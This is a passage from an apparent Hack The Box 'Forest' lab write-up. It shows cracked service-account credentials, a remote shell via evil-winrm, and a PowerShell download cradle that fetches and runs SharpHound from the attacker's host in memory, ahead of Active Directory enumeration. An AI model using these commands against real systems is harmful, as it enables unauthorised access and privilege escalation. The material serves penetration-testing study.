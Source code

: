 ```aaa
Rejected.........: 0/4087808 (0.00%)
Restore.Point....: 4083712/14344385 (28.47%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s523480 -> s2704081

Started: Fri Dec  6 17:24:38 2019
Stopped: Fri Dec  6 17:24:54 2019
```

So the user's credentials turned out to be:

```aaa
User: svc-alfresco
Pass: s3rvice
```




[evil-winrm](https://github.com/Hackplayers/evil-winrm) can be used to login through WinRM, which is running on port 5985 and that nmap usually recognizes as "Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)":

```aaa
┌─[✗]─[baud@parrot]─[~/HTB/forest]
└──╼ $evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice -s ~/http/windows/ -e ~/http/windows/

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

---

## Local Enumeration: Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) can be used to gather data from the compromised host, showing possible relationships between Active Directory objects that could allow for a privilege escalation attack if properly exploited.

In reality Bloodhound is the program local to the attacker's host, the data is collected in a .zip archive by an *ingestor*, like [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors), which is available in two formats, exe and ps1.

I prefer using the PowerShell ingestor because it can be launched from memory without dropping an executable on disk using a download cradle from a normal PowerShell shell, which evil-winrm opens by default:

```aaa
IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.144/Sharphound.ps1")
```

However by using this method Sharphound will not return any output and will not create any archive file, meaning the script is erroring out and for some reason evil-winrm has issues dealing with output from stderr:
